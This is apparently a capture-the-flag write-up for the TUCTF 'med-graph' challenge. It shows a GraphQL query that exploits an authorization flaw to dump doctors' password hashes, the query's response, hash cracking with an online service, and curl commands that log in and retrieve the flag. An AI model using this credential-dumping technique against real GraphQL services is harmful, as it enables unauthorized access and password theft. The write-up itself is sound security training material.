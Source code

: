 After running a full introspection query, I got the following model relationship:

![image](img/graphql.svg)

Although the credentials provided only grant limited access to the data, a flaw in the implementation allows us to retrieve all patients' and doctors' passwords.

```
query {
      allPatients {        
            doctor {           
                  name
                  password               
            }
      }
}
```
The response:
```
{
  "data": {
    "allPatients": [
      {
        "doctor": {
          "name": "Jack",
          "password": "e6a82bc32533b8009bd4b737152c6eded29322c7bcce9f0e622bc775559662a0"
        }
      },
      {
        "doctor": {
          "name": "Kate",
          "password": "b3e3b64e350799b980ab420de9668d81fa0dd7a9d7a3532b8bd4d18a7e2abaab"
        }
      },
      {
        "doctor": {
          "name": "Frank",
          "password": "0b76c134796f9e09f70901eb9fd87ed09e93ae317f6a598a870b7b2158d49dd4"
        }
      },
      {
        "doctor": {
          "name": "Kate",
          "password": "b3e3b64e350799b980ab420de9668d81fa0dd7a9d7a3532b8bd4d18a7e2abaab"
        }
      },
      {
        .
        .
        .
```
Get these hashes on [CrackStation](https://crackstation.net/) and login as Doctor

![hashcrack](img/image.png)

```
curl -X POST "https://med-graph.tuctf.com/" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "username=Jack&password=569043&role=doctor" \
  -c c
curl "https://med-graph.tuctf.com/dashboard" -b c | grep TUCTF
rm c
```
```
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/dashboard">/dashboard</a>. If not, click the link.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   811  100   811    0     0    467      0  0:00:01  0:00:01 --:--:--   467
        <p style="text-align: center;">TUCTF{w3_7h1nk_1n_6r4ph5}</p>
```